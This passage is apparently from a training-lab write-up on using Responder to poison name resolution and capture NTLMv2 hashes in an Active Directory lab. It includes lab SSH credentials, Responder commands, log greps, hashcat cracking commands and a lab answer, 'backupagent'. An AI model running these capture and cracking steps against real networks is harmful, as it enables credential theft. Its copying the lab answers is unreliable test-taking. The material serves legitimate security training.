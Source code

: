 ### Multi-Protocol Capture
**Responder captures multiple authentication types:**
- **SMB:** File share access attempts
- **HTTP:** Web authentication  
- **LDAP:** Directory service queries
- **Proxy:** Browser proxy authentication

### Operational Considerations
**Best practices:**
- **Run continuously** during assessment
- **Use tmux/screen** for persistent sessions
- **Monitor multiple interfaces** if available
- **Combine with other techniques** (password spraying)

---

## Lab Exercises & Solutions

### Lab Environment
- **Target:** 10.129.226.51 (ACADEMY-EA-ATTACK01)
- **Credentials:** htb-student:HTB_@cademy_stdnt!
- **Network:** Internal AD environment

### Question 1: Capture Hash for User Starting with 'b'
**Task:** Run Responder and obtain hash for user account starting with letter 'b'

**Solution:**
```bash
# SSH to attack host
ssh htb-student@10.129.226.51

# Start Responder
sudo responder -I ens224 -wf

# Wait for traffic (may need to wait or generate activity)
# Check logs for captured hashes
ls /usr/share/responder/logs/

# Look for hashes with usernames starting with 'b'
grep -r "^[bB]" /usr/share/responder/logs/*.txt
```

**Answer:** `backupagent`

### Question 2: Crack the Previous Hash
**Task:** Crack the hash for the backupagent account

**Solution:**
```bash
# Find the hash file for backupagent
ls /usr/share/responder/logs/ | grep -i backup

# Crack with Hashcat
hashcat -m 5600 /usr/share/responder/logs/SMB-NTLMv2-SSP-*.txt /usr/share/wordlists/rockyou.txt

# Show cracked result
hashcat -m 5600 /usr/share/responder/logs/SMB-NTLMv2-SSP-*.txt --show
```
